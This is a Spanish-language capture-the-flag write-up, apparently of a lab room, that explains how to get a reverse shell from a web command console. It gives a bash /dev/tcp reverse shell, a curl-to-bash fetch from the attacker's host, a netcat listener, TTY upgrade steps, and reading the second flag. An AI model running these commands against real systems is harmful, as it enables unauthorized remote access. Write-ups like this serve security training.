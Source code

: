 # Obteniendo acceso mediante una reverse shell

Como ya podemos ejecutar comandos en la consola remota de la página. Procederemos a realizar una Reverse Shell para trabajar con mayor comodidad desde nuestra consola.

La Reverse Shell se realizará de la siguiente manera:

Mediante el comando `python -m SimpleHTTPServer 80` crearemos un servidor HTTP para poder entablar la comunicación.

Luego crearemos un script en bash para poder realizar la Reverse Shell tal que: 
```bash
#!/bin/bash

bash -i >& /dev/tcp/NUESTRA_IP/PUERTO 0>&1 
```

Utilizando la consola remota realizaremos un `curl` tal que tenga la siguiente forma `/usr/bin/curl NUESTRA_IP/script.sh|bash`. 
Luego utilizando el comando `nc -nlvp PUERTO` nos pondremos a la escucha de lo que se ejecute desde el curl. Si la conexión se realiza de manera exitosa obtendremos acceso desde nuestra consola a la consola remota.

---
Ya estando dentro hay que tener cuidado cuando apretemos teclas, particularmente con `ctrl + c` ya que con esto perderiamos la conexión de nuestra Reverse Shell. Por lo tanto debemos realizar un tratamiento de la TTY, para ello realizaremos los siguientes pasos:
1. Escribir `script /dev/null -c bash`
2. Luego `ctrl + z`, que nos enviara devuelta a la consola nuestra
3. Despues escribir `stty raw -echo` y enter.
4. Hecho esto, escribimos `fg` (podria no verse, asi que solo se escribe y se confia en que esté) y le damos al enter.
5. Luego escribimos `reset` y le damos al enter. Y nos preguntará por que tipo de terminal queremos e indicamos `xterm` y enter.
6. Luego escribimos `export TERM=xterm`, luego enter.
7. Luego `export SHELL=bash`.
8. Finalmente modificamos el numero de filas y columnas de la TTY mediante el comando `stty rows X columns Y` donde X e Y son el numero de filas y columnas que tiene su TTY (Este lo puede ver escribiendo en otra consola `stty -a`).

Con esto terminariamos el tratamiento de la TTY y podremos trabajar comodamente con nuestra Reverse Shell.

---
# Obteniendo la segunda flag
Ya con nuestra TTY sanitizada nos vamos al directorio `/home` donde podemos ver que hay un directorio que se llama "rick" en el se encuentra nuestra segunda flag.
Para verla debemos hacer un `cat second\ ingredients`. Y con eso tendriamos nuestra segunda flag.

---
NOTA: Esta forma alternativa de utilizar la consola, nos permite realizar un `cat` por lo que podemos ver la flag 1 sin la necesidad de utilizar la forma de [[1 - Ingreso y manipulación en portal.php]]

NOTA2: En la pagina [https://ironhackers.es/es/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/es/herramientas/reverse-shell-cheat-sheet/) se encuentran otros tipos de Reverse Shell que se pueden probar.
